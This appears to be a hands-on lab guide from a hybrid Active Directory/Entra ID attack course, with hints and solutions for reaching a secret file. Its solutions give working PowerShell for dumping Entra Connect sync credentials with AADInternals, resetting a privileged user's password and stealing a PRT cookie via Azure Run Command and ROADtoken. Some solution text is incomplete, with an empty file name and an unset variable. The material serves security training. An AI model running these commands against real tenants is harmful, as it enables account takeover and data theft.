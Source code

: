 # LAB 4 Preparations
1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin:
    ```powershell
    # when asked, login using the ENTRA CREDS (!)
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1"
    ```
    Ignores errors such as "*cannot be created because function capacity 4096 has been exceeded for this scope*"..

2. RDP login to Win11 VM using the YOURDOMAIN\\**user1**, then run the following script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
    keep this window open in the background - **you're not allowed to use it from now on**

# Instructions
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of 'user1' / 'rootuser')
3. **DO NOT** password reset or silver ticket (Seamless SSO) "user1"
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

# Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. Pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
as we learned, roadrecon writes a file with the access token called "", we can take that access token and steal it!
1. Get the logged in user's access token: run the following command from the Run Command Window in the Azure portal:

```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken 
 <eyJh... PRT COOKIE>

```
</details>


### Step 3 Hint
### Step 3 Solution

```powershell
$at = "eyJ...."
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser
```

### Bonus: 
Go back to the beginning, and try steal user2 using silver ticket (Seamless SSO) instead of password reset


## Don't forget
Once done, delete the lab resource groups to clean up the resources